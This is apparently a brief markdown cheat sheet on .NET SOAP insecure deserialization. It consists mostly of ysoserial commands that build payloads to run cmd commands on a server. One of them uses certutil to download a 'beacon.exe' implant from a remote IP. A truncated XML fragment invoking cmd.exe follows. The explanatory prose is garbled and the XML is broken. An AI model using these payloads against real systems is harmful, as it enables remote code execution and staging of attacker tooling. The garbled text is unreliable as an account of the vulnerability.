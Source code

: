 #  Insecure deserialization Vulnerability

Any Insecure deserialization vulnerability may occur when serialized object are allowed to alter.as a result, an unauthorized remote user could be able to execute 
arbitrary command and gaining u access to nauthorized access to  in the context of applicaiton server.Serialized objects are generally sent across is base64 format used in web applications.technically Serialization refers to a process of turning into  an object into a format on the other hand, deserialization, turning back to serialized data.

# SOAP NET Deserialization
```
ysoserial.exe -f SoapFormatter -g TextFormattingRunProperties -c "cmd /c ipconfig" -o raw
ysoserial.exe -f SoapFormatter -g TextFormattingRunProperties -c "cmd /c hostname" -o raw
ysoserial.exe -f SoapFormatter -g TextFormattingRunProperties -c "cmd /c certutil.exe -urlcache -split -f  http://192.168.100.199\beacon.exe C:\\Users\\Public\\beacon.txe" -o raw
```


```
<?xml version="1.0"?>
<testcl xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
 <_cmd>cmd.exe</_cmd>
</testcl

```
